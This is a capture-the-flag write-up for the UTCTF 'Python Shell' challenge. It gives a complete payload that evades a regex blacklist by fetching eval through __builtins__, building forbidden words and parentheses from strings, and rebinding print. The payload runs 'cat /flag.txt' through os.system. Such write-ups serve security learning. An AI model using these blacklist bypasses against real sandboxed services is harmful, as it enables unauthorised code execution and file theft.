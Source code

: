 # Python Shell 

## Task

Upload a Python file that can be run by invoking the python command, and we will run it for you. To do so, send the bytes over the stream, and close the write half. stdout will be sent back. For security reasons, we may refuse to run your file if we detect dangerous strings. There is a byte limit and a timeout.

nc misc.utctf.live 4353


## Solution

First you hat to create a connection and halfclose it. This is best done with `socat -t1 - TCP:misc.utctf.live:4353`.

So now to the payload. A simple `print('xxx')` returns xxx so far so good.

But if we just try to: `print(open('/flag.txt').read())` we get:

```
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds. Only the first 4096 bytes will be considered.
Blacklist: (eval)|(import)|(open)|(with)|(as)|(from)|(lambda)|(\s*print\s*=\s*)|(?P<paren>\()
Whitelist: (\s*print\s*(?P<paren>\())
```


So we know what is prohibited: `eval|import|open|with|as|from|lambda|print = |` and what is that?
`(` open parentheses... ok thats "new"...


So to get around the forbidden `open` we could do something like:  `eval('op' + 'en'('flag.txt'))` but eval is forbidden as well.

A simple `__builtins__.__dict__['ev' + 'al']` will solve that, so now to the `(`.

Since it is a string it can be replaced with `int.__doc__[3]`.

`__builtins__.__dict__['ev' + 'al']`('print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))')`

So maybe something like that? But wait there is still a `(` at char(40) damn!

How to get rid of that? I didn't find a way to get rid of it directly, but there was mention of a "whitelist" before. `Whitelist: (\s*print\s*(?P<paren>\())`
For `print(` the `(` is ok, good to know!

Let's try

`p = 'print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))';  __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p + "")`


No answer... debugging it locally gave me the flag via stderr while throwing an exception, but the server only forwards stdout.

So I changed the `open('/flag.txt').read()` part to `os.system('cat /flag.txt')`

Resulting in: `p = '__builtins__.__i' + 'mport__' + int.__doc__[3] + '"os").system' + int.__doc__[3] + '"cat /flag.txt")'; __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p)"` as the final payload.

```
echo "p = '__builtins__.__i' + 'mport__' + int.__doc__[3] + '"os").system' + int.__doc__[3] + '"cat /flag.txt")'; __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p)" > payload`
cat payload | socat -t1 - TCP:misc.utctf.live:4353
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds. Only the first 4096 bytes will be considered.
utflag{unclean_input}
```




